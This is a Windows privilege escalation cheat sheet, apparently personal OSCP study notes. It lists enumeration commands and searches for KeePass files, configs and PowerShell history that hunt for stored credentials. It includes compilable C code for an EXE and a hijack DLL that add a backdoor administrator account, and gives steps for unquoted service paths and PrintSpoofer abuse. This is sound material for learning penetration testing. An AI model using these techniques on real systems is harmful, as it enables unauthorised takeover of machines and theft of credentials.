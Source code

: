# Privilege Escalation OSCP

#### Information to look for <a href="#information-to-look-for" id="information-to-look-for"></a>

**Situational Awareness**

* Username and hostname

```
whoami
whoami /priv
whoami /all
```

* Group memberships of the current user

```
whomai /groups
```

* Existing users and groups

```
net user
net localgroup
net localgroup <GroupName>
```

```
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember <GroupName>
```

* Operating system, version and architecture

```
systeminfo
```

* Network information

```
ipconfig /all
route print
netstat -ano
```

* Installed applications

```
# 32-bit
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
# 64-bit
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

* Running processes

```
Get-Process
```

**Hidden in Plain Sight**

* Users Home directory

```
tree /f C:\\Users\\
```

* KeePass Database

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

* Configuration Files

```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini,*.conf -File -Recurse -ErrorAction SilentlyContinue
```

* Documents and text files in users home directory

```
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

* RunAs

```
runas /user:backupadmin cmd
```

**PowerShell logs**

```
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\Public\Transcripts\transcript01.txt
```

**Automated Enumeration**

`winPEAS.ex`, `PowerUp.ps1`

#### Windows Services <a href="#windows-services" id="windows-services"></a>

**Service Binary Hijacking**

```
# Fails inside WinRM
Get-CimInstance -ClassName win32_service | Select Name,StartMode,State,PathName | Where-Object {$_.State -like 'Running'}
icacls "C:\xampp\apache\bin\httpd.exe"
```

```
# Program: adduser.c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```
net stop httpd
shutdown /r /t 0 
net start httpd
```

**Service DLL Hijacking**

Ther order of loading a DLL

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

Copy

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls BetaServer.exe
```

Use ProcessMonitor to investigate DLL Hijacking. Apply a filter and restart the process.

```
Restart-Service BetaService
$env:path
```

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

**Unquoted Service Paths**

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

```
. .\PowerUp.ps1
Get-UnquotedService
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```

#### Using Windows Components <a href="#using-windows-components" id="using-windows-components"></a>

**Scheduled Tasks**



```
schtasks /query /fo LIST /v
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

**Exploits**

* Installed Application Based Exploits
* Kernel Exploits
* Windows Service Accounts having SeImpersonatePrivilege



```
whoami /priv
.\PrintSpoofer64.exe -i -c powershell.exe
```

https://jlajara.gitlab.io/Potatoes\_Windows\_Privesc
